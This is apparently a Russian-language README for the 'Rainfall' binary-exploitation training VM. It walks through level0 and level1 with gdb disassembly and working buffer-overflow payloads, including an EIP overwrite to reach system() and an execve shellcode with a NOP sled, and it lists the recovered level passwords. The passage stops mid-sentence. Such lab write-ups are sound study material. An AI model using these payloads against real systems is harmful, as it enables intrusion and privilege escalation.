








<!-- <style>
  .filePath {
  background: red;
  color: white;
  }
  .off {
  color: red;
  }
  .on {
  color: green;
  }
</style> -->

# Rainfall
Проект по изучению методов взлома и поиску уязвимостей.

На платформе intra на странице проекта есть образ, который необходимо запустить на виртуальной машине и получить пароли от пользователей     \
level0 level1 level2 level3 level4     \
level5 level6 level7 level8 level9     \
bonu0 bonu1 bonu02 bonu3 end

Скрипт для запуска образа в VirtualBox: [Vbox/setup.sh](./Vbox/setup.sh) .

Полученные пароли записаны в файлы: \
[levelX](./project)/flag,           \
[bonusX](./project)/flag,           \
где X - номер уровня, на котором получен пароль.

Ниже последовательно описаны мои действия по достижению цели.

<a name="content"></a> 
# Содержание и список полученных паролей от следующего пользователя

[Вступительная теория о списке состояния механизмов защиты ядра](#Preamble)

| Пользователь           | Уязвимость | Инструмент | Пароль от следующего пользователя  |  
| ---------------------- | ---------- | -----------| ----------------------:|
| ........................... | ........................... | .................................................................................|........................................................................................................................ |
|  |  <br>Общее для всех уровней и бонусов: <br><br>STACK CANARY: No canary found<br><br> NX: Disabled <br><br>PIE: No PIE <br |  |
| [level0](#lvl0)        | Выявление с помощью gdb подходящего числа для ввода | gdb |  1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a |
| [level1](#lvl1)        | <p>использование функции gets(), наличие в коде функции system() </p> | <p>Работа со стеком. </p> <br> <p>поиск слабого места: gdb;</p> <p>взлом: переполнение буфера ( `gets()` ) и подмена EIP регистра (адрес возврата из функции) на адрес с нужным кодом: <br> - [адрес на system()](#level1_jump_to_system()), <br> - [положить шеллкод на стек и положить в EIP адрес шеллкода на стеке](#level1_shellcode_on_stack), <br> - [положить шеллкод в переменную окружения и положить в EIP адрес этой переменной окружения](#level1_shellcode_in_env) </p>| 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77 |
| [level2](#lvl2)        | <p>использование функции gets(), выделение памяти в куче без освобождения strdup() </p>  | <p>Работа с кучей. </p> <br> Поиск слабого места: gdb; <br>Поиск адреса кучи: ltrace, gdb<br><br>Взлом: переполнение буфера ( gets() ) и подмена EIP регистра (адрес возврата из функции) на адрес кучи. | 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02 |
| [level3](#lvl3)        | <p>уязвимость строки форматирования: уязвимое использование функции printf()<br><br> наличие в коде функции system() | gdb | b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa |
| [level4](#lvl4)        | <p>уязвимость строки форматирования: уязвимое использование функции printf()<br><br> наличие в коде функции system() | gdb | 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a |
| [level5](#lvl5)        | <p>уязвимость строки форматирования: уязвимое использование функции printf()<br><br> наличие в коде функции system() | gdb. Подмена адреса функции на адрес с system() | d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31 |
| [level6](#lvl6)        | <p>использование функции strcpy() без защиты буфера от переполнения, наличие в коде функции system() </p> | <p>Работа со стеком. </p> <br> <p>поиск слабого места: gdb;</p> <p>взлом: переполнение буфера ( `strcpy()` ) и подмена EIP регистра (адрес возврата из функции) на адрес для выполнения system() | f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d |
| [level7](#lvl7)        | использование функции strcpy() без защиты буфера от переполнения | взлом: переполнение буфера ( `strcpy()` ) и подмена во втором вызове `strcpy()` первого аргумента на адрес функции, которая будет вызвана в дальнейшем в программе, подмена второго аргумента на адрес функции, которую мне надо вызвать | 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 |
| [level8](#lvl8)        | неаккуратное использование malloc:<br>strdup()<br>strcpy() | gdb, работа с памятью - правильно ввести строки для заполнения памяти в нужных местах | c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a |
| [level9](#lvl9)        |  |  |  |
| [bonus0](#bonus0)      |  |  |  |
| [bonus1](#bonus1)      |  |  |  |
| [bonus2](#bonus2)      |  |  |  |
| [bonus3](#bonus3)      |  |  |  |

#
###### [вернуться к содержанию](#content)
<a name="Preamble"></a> 
# Вступительная теория о списке состояния механизмов защиты ядра

После запуска ВМ при входе в пользователя появляется сообщение:
<!-- <pre>
_____       _       ______    _ _
|  __ \     (_)     |  ____|  | | |
| |__) |__ _ _ _ __ | |__ __ _| | |
|  _  /  _` | | '_ \|  __/ _` | | |
| | \ \ (_| | | | | | | | (_| | | |
|_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

Good luck & Have fun

To start, ssh with level0/level0 on :4242
    level0@10.21.33.24's password:
    GCC stack protector support:            <font class=on>Enabled</font>
    Strict user copy checks:                <font class=off>Disabled</font>
    Restrict /dev/mem access:               <font class=on>Enabled</font>
    Restrict /dev/kmem access:              <font class=on>Enabled</font>
    grsecurity / PaX: <font class=off>No GRKERNSEC</font>
    Kernel Heap Hardening: <font class=off>No KERNHEAP</font>
    System-wide ASLR (kernel.randomize_va_space): <font class=off>Off (Setting: 0)</font>
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    <font class=off>No RELRO        No canary found   <font class=on>NX enabled</font>    No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level0/level0</font>
</pre> -->


Это список состояния механизмов защиты ядра.

Чтобы повторно посмотреть этот вывод, можно вызвать 3 команды:
```sh
checksec --kernel
cat /proc/sys/kernel/randomize_va_space
checksec --file /home/user/level0/level0
```
Хорошие статьи о checksec и randomize_va_space:
1. [о checksec --kernel](https://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/),    
2. [о checksec --file и не только. RELPO, CANARY, NX, PIE](https://opensource.com/article/21/6/linux-checksec)     
3. [о kernel.randomize_va_space (ASLR)](https://www.spec.org/cpu2017/flags/Supermicro-Platform-Settings-V1.2-Milan-revC.html) 
4. [/proc/sys/kernel/randomize_va_space](https://www.kernel.org/doc/Documentation/sysctl/kernel.txt)
5. [kernel.randomize_va_space (ASLR)](https://www.spec.org/cpu2017/flags/Supermicro-Platform-Settings-V1.2-Milan-revC.html)

Еще кое-что для чтения о взломах
1. [Переполнение буфера: анатомия эксплоита](https://www.securitylab.ru/analytics/421994.php)
2. [Off-By-One Vulnerability (Heap Based)](https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/)
3. [Уязвимость Use-After-Free](https://habr.com/ru/company/otus/blog/516150/)

<details> 
  <summary> Некоторые рассуждения о прочитанном </summary>
    <ol>
      <li> 
          <p>
            Можно в определенных ситуациях воспользоваться перезаписью данных в переменную (перезаписать данные за пределами переменной):
          </p>
        <pre> Strict user copy checks:                <font class=off>Disabled</font></pre>
      </li>
      <li>
          <p>
          Можно попробовать вычислить нужный адрес процесса:
          </p>
        <pre> System-wide ASLR (kernel.randomize_va_space): <font class=off>Off (Setting: 0)</font></pre>
          <p>
            "Этот параметр можно использовать для выбора типа рандомизации адресного пространства процесса. Значения по умолчанию различаются в зависимости от того, поддерживает ли архитектура ASLR, было ли ядро собрано с параметром CONFIG_COMPAT_BRK или нет, или от используемых параметров загрузки ядра.
          </p>
          <ul>
            Возможные настройки:
            <li>0: отключить рандомизацию адресного пространства процесса.</li>
            <li>1: Рандомизировать адреса базы mmap, стека и страниц VDSO.</li>
            <li>2: дополнительно рандомизируйте кучу. (Вероятно, это значение по умолчанию.)</li>
          </ul>
          <a href="https://www.spec.org/cpu2017/flags/Supermicro-Platform-Settings-V1.2-Milan-revC.html">
            "Отключение ASLR может сделать выполнение процессов более детерминированным, а время выполнения — более согласованным."
          </a>
      </li>
      <li>
        grsecurity / PaX: Custom GRKERNSEC
        <pre>
Non-executable kernel pages:            <font class=on>Enabled</font> / <font class=off>Disabled</font>
Prevent userspace pointer deref:        <font class=on>Enabled</font> / <font class=off>Disabled</font>
Prevent kobject refcount overflow:      <font class=on>Enabled</font> / <font class=off>Disabled</font>
Bounds check heap object copies:        <font class=on>Enabled</font> / <font class=off>Disabled</font>
Disable writing to kmem/mem/port:       <font class=on>Enabled</font> / <font class=off>Disabled</font>
Disable privileged I/O:                 <font class=on>Enabled</font> / <font class=off>Disabled</font>
Harden module auto-loading:             <font class=on>Enabled</font> / <font class=off>Disabled</font>
Hide kernel symbols:                    <font class=on>Enabled</font> / <font class=off>Disabled</font>
        </pre>
        Поскольку No GRKERNSEC, то всё вышеописанное отключено.
        <p>
          <a href="https://blog.siphos.be/2011/07/checksec-kernel-security/"> Подробнее об этих параметрах</a>
        </p>
        <p>
          <a href="https://www.opennet.ru/cgi-bin/opennet/man.cgi?topic=iopl&category=2"> ioperm и iopl </a>
        </p>
      </li>
    </ol>
</details>

#
###### [вернуться к содержанию](#content)
<a name="lvl0"></a> 
# level0

1. Проверяю содержимое директории и пробую запустить найденный файл различными способами:
```sh
ls -la
# ||
# \/
# -rwsr-x---+ 1 level1 users  747441 Mar  6  2016 level0

./level0
# ||
# \/
# Segmentation fault (core dumped)

ldd ./level0
# ||
# \/
# not a dynamic executable
```
Ссылки для чтения:
* [о чем говорит вывод `not a dynamic executable`](https://stackoverflow.com/questions/26541049/ltrace-couldnt-find-dynsym-or-dynstr-in-library-so) \
* [Как работает ltrace (инструмент трассировки библиотек)](https://stackoverflow.com/questions/32214079/how-does-ltrace-library-tracing-tool-work) \
* [внутреннее устройство ltrace](https://www.kernel.org/doc/ols/2007/ols2007v1-pages-41-52.pdf)

```sh
./level0 -1
# ||
# \/
# No !

gdb ./level0
(gdb) disas main
# ||
# \/
   0x08048ecc <+12>:	add    $0x4,%eax
   0x08048ecf <+15>:	mov    (%eax),%eax
   0x08048ed1 <+17>:	mov    %eax,(%esp)
   0x08048ed4 <+20>:	call   0x8049710 <atoi>
   0x08048ed9 <+25>:	cmp    $0x1a7,%eax
   0x08048ede <+30>:	jne    0x8048f58 <main+152>
```
Эти строки говорят о том, что при запуске ./level0 с аргументом, аргумент будет переведен в число и сравнен со значением 0x1a7<sub>16</sub> = 423<sub>10</sub>. При совпадении значений, будет произведен прыжок на 0x8048f58 <main+152> . 

2. Пробую 423 в качестве эксплоита:

```sh
./level0 423
$ cat /home/user/level1/.pass
# ||
# \/
# 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
$ exit
level0@RainFall:~$ su level1
# Password: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
```
<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>
#include "string.h"
#include "unistd.h"
#include "stdio.h"
<br>
int    main(int argc, char **argv){
        gid_t           gid;
        uid_t           uid;
        char            *array[2];


        if (atoi(argv[1]) == 423){
                array[0] = strdup("/bin/sh");
                array[1] = NULL;
                gid = getegid();
                uid = geteuid();
                setresgid(gid, gid, gid);
                setresuid(uid, uid, uid);
                execv("/bin/sh", array);
        }
        else
                fprintf(stderr, "No !\n");
        return (0);
}
</pre>
gcc -static -m32 -Wl,-z,norelro -fno-stack-protector исходник_level0.c -o level0
<br><br><br>
</details> 

#
###### [вернуться к содержанию](#content)
<a name="lvl1"></a> 
# level1

<!-- <pre>
level0@RainFall:~$ su level1
<font color=grey>Password: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level1/level1</font>
</pre> -->


...................... \
RELRO: [защищает структуры исполняемого ELF-файла (изменение которых позволяет взломщику изменить ход выполнения программы) путем модификации секций PLT (Procedure Linking Table) или GOT (Global Offset Table) ELF-файла. При полном RELRO, вся таблица GOT перед началом исполнения в памяти помечается доступной только для чтения и таким образом предотвращает свою модификацию потенциальным злоумышленником.](https://www.opennet.ru/opennews/art.shtml?num=27938) Значит, что в этом случае можно "на ходу" поменять выполнение программы.

...................... \
No canary found - значит можно переполнить буфер и положить нужные нам значения для возврата из функции.

...................... \
No PIE - отключена рандомизация адресного пространства.

...................... \
NX: в полученном выводе видно, что NX выключено, значит, можно при запуске level1 поместить в стек исполняемый код и запустить его. Именно этим ниже я и воспользуюсь.

...................... \
исполняемый файл будет всегда запускаться от имени владельца - это level2:
```sh
ls -la
# ||
# \/
# -rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1

getfacl level1 
# ||
# \/
# # file: level1
# # owner: level2
# # group: users
# # flags: ss-
# user::rwx
# user:level2:r-x
# user:level1:r-x
# group::---
# mask::r-x
# other::---
```
Значит, с помощью этой программы можно получить доступ к файлам, на которые есть права у level2.

...................... 

1. Проверяю содержимое директории и пробую запустить найденный файл различными способами:
```sh
ls -la
# ||
# \/
# -rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1

./level1
# ||
# \/
# maybe loop or waiting for something...or something else

ltrace ./level1
# ||
# \/
# __libc_start_main(0x8048480, 1, 0xbffff7b4, 0x80484a0, 0x8048510 <unfinished ...>
# gets(0xbffff6d0, 47, 0xbffff71c, 0xb7fd0ff4, 0x80484a0
# )                           = 0xbffff6d0
# +++ exited (status 208) +++

```
2. Использование уязвимости:
NX disabled + No canary found + NO PIE + gets(), в которую подан аргумент при вызове программы.

Статьи по уровню:   
 - [О работе стека.](https://www.opennet.ru/base/dev/stack_intro.txt.html)    
 - [В королевстве PWN. Препарируем классику переполнения стека](https://snovvcrash.rocks/2019/10/20/classic-stack-overflow.html#gdb-peda)    
 - [Создание Эксплойта: Переполнение буфера стека](https://codeby.net/threads/sozdanie-ehksplojta-perepolnenie-bufera-steka.58741/)

gets() не проверяет длину поданной строки. И в этом уязвимость функции - можно переполнить буфер и положить вредоносный код (эксплоит) - 
1. [переместиться на system()](#level1_jump_to_system())
2. [положить шеллкод на стек и переместиться на адрес шеллкода на стеке](#level1_shellcode_on_stack)
3. [положить шеллкод в переменную окружения и переместиться на адрес переменной окружения](#level1_shellcode_in_env)

Общее для всех трех способов взлома - подмена адреса возврата функции (регистр EIP). Подробно об этом ниже.

```sh
gdb -batch -ex 'file ./level1' -ex 'disas main'
# ||
# \/
# Dump of assembler code for function main:
#    0x08048480 <+0>:     push   %ebp
#    0x08048481 <+1>:     mov    %esp,%ebp
#    0x08048483 <+3>:     and    $0xfffffff0,%esp
#    0x08048486 <+6>:     sub    $0x50,%esp
#    0x08048489 <+9>:     lea    0x10(%esp),%eax
#    0x0804848d <+13>:    mov    %eax,(%esp)
#    0x08048490 <+16>:    call   0x8048340 <gets@plt>
#    0x08048495 <+21>:    leave  
#    0x08048496 <+22>:    ret    
# End of assembler dump.
```
<details> 
  <summary> Анализ disassemble main в развороте: </summary>
<br>

создается стековый фрейм (stack frame) или кадр стека: <br>
`0x08048480 <+0>:     push   %ebp` сохраняет в стеке содержимое регистра EBP <br>
`0x08048481 <+1>:     mov    %esp,%ebp` присваивает регистру
EBP значение ESP <br>
`0x08048483 <+3>:     and    $0xfffffff0,%esp` выравнивание стека по 16-байтовой границе, то есть каждая созданная переменная и выделенная в функции main область памяти будет выравниваться до размера, кратного 16 байтам.

Далее: <br>
`0x08048486 <+6>:     sub    $0x50,%esp` резерв места для локальных переменных функции main 50<sub>16</sub> = 80<sub>10</sub> байт - содержит:<br> 
возвращенное значение от `char* gets()`, то есть `char*` - 4 байта, выровненные до 16 ([Соглашение о вызове функций - выравнивание стека](https://www.cyberforum.ru/assembler-x64/thread1328915.html)) <br>
создание буфера под 80-16=64 байта

Приготовления для вызова функции gets(): <br>
`0x08048489 <+9>:     lea    0x10(%esp),%eax` в eax помещается значение `esp+10` [(без разименования)](https://stackoverflow.com/questions/1658294/whats-the-purpose-of-the-lea-instruction), то есть адрес на буфер в 50<sub>16</sub>-10<sub>16</sub>=40<sub>16</sub> = 64<sub>10</sub> байта (как я писала выше, 10<sub>16</sub> = 16<sub>10</sub> байт - это возвращаемое значение функцией gets(), то есть просто esp указывал бы как раз на это возвращаемое значение). <br>
`0x0804848d <+13>:    mov    %eax,(%esp)` в gets() передается указатель на буфер в 40<sub>16</sub> = 64<sub>10</sub> байта. <br>
`0x08048490 <+16>:    call   0x8048340 <gets@plt>` вызов gets()

Последнее:
`0x08048495 <+21>:    leave  ` <br>
Инструкция leave равносильна двум инструкциям <br>
1: `mov esp,ebp` вершина стека указывает на значение, которое занимала перед входом в функцию main <br>
2: `pop ebp` ebp опять принимает значение ebp вызывающей функции. <br>
`0x08048496 <+22>:    ret    `
инструкция ret верхнее значение стека присваивает регистру eip, [предполагая, что это сохраненный адрес возврата в вызывающую функцию, переходит по этому адресу](https://snovvcrash.rocks/2019/10/20/classic-stack-overflow.html).
<br><br><br>
</details>

Интересующая строка: \
`0x08048496 <+22>:    ret  ` инструкция ret верхнее значение стека присваивает регистру eip. \
В соответствии с анализом, приведенным выше, надо переполнить буфер и подать нужный адрес на место, где в стеке размещался бы регистр eip. Ниже это я рассмотрю.

## Разработка эксплоита. 

## Общее для всех трех способов  - перемещение на функцию, исполнение шеллкода на стеке, исполнение шеллкода из переменной окружения:
Расчет смещения EIP (адреса возврата) \
[Воспользуюсь сайтом.](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)

Нужное смещение 76 байт.

Теперь необходимо решить, на что будет указывать адрес, который будет положен в EIP.


<a name="level1_jump_to_system()"></a> 
## _1._ level1: перейти на system()

Поиск места для подмены адреса возврата:

```sh

gdb

disassemble TAB
# || 
# \/
# gets
# main
# run
# system
# fwrite
# data_start
# frame_dummy
# ...
```

Среди функций есть system().
Если перейти сразу на system(), то оболочка не откроется, так как для открытия оболочки этой функции необходим аргумент `/bin/sh`. Для вызова system() с нужным аргументом нахожу функцию, которая ее вызывает (в main не было такой). Нахожу в run:
```sh
gdb -batch -ex 'file ./level1' -ex 'disassemble run' | grep system
# || 
# \/
#  0x08048479 <+53>:    call   0x8048360 <system@plt>
```
Отлично. Это то, что нужно. \
`0x08048472 <+46>:    movl   $0x8048584,(%esp)` кладет `/bin/sh` в аргумент для system() \
`0x08048479 <+53>:    call   0x8048360 <system@plt>` вызов system() c `/bin/sh`

Посмотреть содержимое переменной: 
```
(gdb) x 0x8048584
0x8048584:       "/bin/sh"
```
Теперь нужно подать вместо адреса возврата в main адрес `0x08048472 <+46>:    movl   $0x8048584,(%esp)`, либо любой, после которого я попадаю на эту строку внутри run():
```sh
gdb
(gdb) disassemble run
# || 
# \/
# Dump of assembler code for function run:
#    0x08048444 <+0>:     push   %ebp
#    0x08048445 <+1>:     mov    %esp,%ebp
#    0x08048447 <+3>:     sub    $0x18,%esp
#    0x0804844a <+6>:     mov    0x80497c0,%eax
#    0x0804844f <+11>:    mov    %eax,%edx
#    0x08048451 <+13>:    mov    $0x8048570,%eax
#    0x08048456 <+18>:    mov    %edx,0xc(%esp)
#    0x0804845a <+22>:    movl   $0x13,0x8(%esp)
#    0x08048462 <+30>:    movl   $0x1,0x4(%esp)
#    0x0804846a <+38>:    mov    %eax,(%esp)
#    0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
#    0x08048472 <+46>:    movl   $0x8048584,(%esp)
#    0x08048479 <+53>:    call   0x8048360 <system@plt>
#    0x0804847e <+58>:    leave  
#    0x0804847f <+59>:    ret    
# End of assembler dump.
```
Таким образом подойдет любой из этих:
0x08048444 \
0x08048445 \
0x08048447 \
0x0804844a \
0x0804844f \
0x08048451 \
0x08048456 \
0x0804845a \
0x08048462 \
0x0804846a \
0x0804846d \
0x08048472 

Я возьму сразу 0x08048472 на строку выше, чем system(): 
```sh
#                                       0x08048472
(echo $(python -c 'print "a" * 76 + "\x72\x84\x04\x08"'); cat) | ./level1
whoami
# || 
# \/
# level2
cat /home/user/level2/.pass
# || 
# \/
# 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
Уровень пройден!
```sh
su level2
# Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

<a name="level1_shellcode_on_stack"></a> 
## _2._ level1: shellcode на стеке

Для shellcodes мне понравился сайт http://shell-storm.org/ . \
На нем есть масса полезных статей по кибербезопасности и [готовые shellcodes](http://shell-storm.org/shellcode/index.html).

<a name="shellcode"></a> 
<details> 
  <summary> Чтобы подобрать подходящий код, я проделала шаги, указанные в развороте: </summary>

1. Узнаю ОС:
```sh
uname -a
# ||
# \/
# Linux RainFall 3.2.0-90-generic-pae #128-Ubuntu SMP Fri Aug 14 22:16:51 UTC 2015 i686 i686 i386 GNU/Linux
```
В данном случае 32-разрядная ОС.

2. Теперь надо узнать информацию об архитектуре CPU:

```sh
lscpu
# ||
# \/
# Architecture:          i686
# CPU op-mode(s):        32-bit, 64-bit
# Byte Order:            Little Endian
# CPU(s):                1
# On-line CPU(s) list:   0
# Thread(s) per core:    1
# Core(s) per socket:    1
# Socket(s):             1
# Vendor ID:             GenuineIntel
# CPU family:            6
# Model:                 55
# Stepping:              8
# CPU MHz:               2163.246
# BogoMIPS:              4326.49
# Virtualization:        VT-x
# L1d cache:             24K
# L1i cache:             32K
# L2 cache:              1024K
```
Значит, мне нужен код для:  \
Linux 32-bit                \
Intel/x86                   \
Этот код будет содержать execve() - запуск оболочки. <br>
<br>
Я выбрала:                  \
`||`                        \
`\/`                        \
Intel x86                   \
Sauder                      \
Linux/x86 - execve() Diassembly Obfuscation Shellcode - 32 bytes by BaCkSpAcE
<br><br><br>
</details> 

Узнаю количесвто символов на стеке после буфера, которое я могу безопасно использовать для своих целей:
```sh
python -c 'print "A"*76 + "B" * 4 + "C" * 72'
# ||
# \/
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

gdb level1

(gdb)r $(python -c 'print "A"*76 + "B" * 4 + "C" * 72')
# ||
# \/
# Program received signal SIGSEGV, Segmentation fault.
# 0x42424242 in ?? ()

(gdb) x/64xw $esp-80
# ||
# \/
# 0xbffff5f0:     0x41414141      0x41414141      0x41414141      0x41414141
# 0xbffff600:     0x41414141      0x41414141      0x41414141      0x41414141
# 0xbffff610:     0x41414141      0x41414141      0x41414141      0x41414141
# 0xbffff620:     0x41414141      0x41414141      0x41414141      0x41414141
# 0xbffff630:     0x41414141      0x41414141      0x41414141      0x42424242
# 0xbffff640:     0x43434343      0x43434343      0x43434343      0x43434343
# 0xbffff650:     0x43434343      0x43434343      0x43434343      0x43434343
# 0xbffff660:     0x43434343      0x43434343      0x43434343      0x43434343
# 0xbffff670:     0x43434343      0x43434343      0x43434343      0x43434343
# 0xbffff680:     0x43434343      0x43434343      0x00000000      0x08048390
# 0xbffff690:     0x00000000      0xb7ff26b0      0xb7e453e9      0xb7ffeff4
# 0xbffff6a0:     0x00000001      0x08048390      0x00000000      0x080483b1
# 0xbffff6b0:     0x08048480      0x00000001      0xbffff6d4      0x080484a0
# 0xbffff6c0:     0x08048510      0xb7fed280      0xbffff6cc      0xb7fff918
# 0xbffff6d0:     0x00000001      0xbffff819      0x00000000      0xbffff832
# 0xbffff6e0:     0xbffff847      0xbffff85e      0xbffff876      0xbffff886

```
`C` выровнены начиная с адреса `0xbffff640` - это именно то место, куда будет положен shellcode и NOP-срезы.

Запуск в дебаггере  кода с выводом от команды \
`(python -c 'print "A"*76 + "\x40\xf6\xff\xbf" + "\x90" * 40 + "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1"')` \
отработает, но оболочка откроется с правами пользователя, запустившего бинарник. Это особенность дебаггера в целях безопасности.

За пределами дебаггера выполняю команду: \
